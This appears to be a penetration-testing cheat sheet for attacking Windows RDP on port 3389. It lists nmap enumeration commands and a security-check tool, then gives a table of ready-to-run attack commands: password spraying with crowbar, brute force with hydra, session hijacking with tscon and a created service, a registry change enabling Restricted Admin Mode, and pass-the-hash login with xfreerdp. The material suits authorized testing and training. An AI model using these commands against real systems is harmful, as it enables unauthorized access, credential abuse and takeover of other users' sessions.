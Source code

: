 # RDP (3389)
- [ ] RDP Nmap
  ```bash
  nmap -sV -sC $IP -p3389 --script rdp*
  ```
  ```bash
  nmap -sV -sC $IP -p3389 --packet-trace --disable-arp-ping -n
  ```
- [ ] RDP Security Check
  ```bash
  sudo cpan
  git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
  ./rdp-sec-check.pl $IP
  ```
- [ ] Initiate an RDP Session
  ```bash
  xfreerdp /u:user /p:"P455w0rd!" /v:$IP
  ```
  
## Attacking RDP

|**Command**|**Description**|
|-|-|
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'` | Password spraying against the RDP service. |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp` | Brute-forcing the RDP service. |
| `rdesktop -u admin -p password123 192.168.2.143` | Connect to the RDP service using `rdesktop` in Linux. |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}` | Impersonate a user without its password. |
| `net start sessionhijack` | Execute the RDP session hijack. |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` | Enable "Restricted Admin Mode" on the target Windows host. |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA` | Use the Pass-The-Hash technique to login on the target host without a password. |
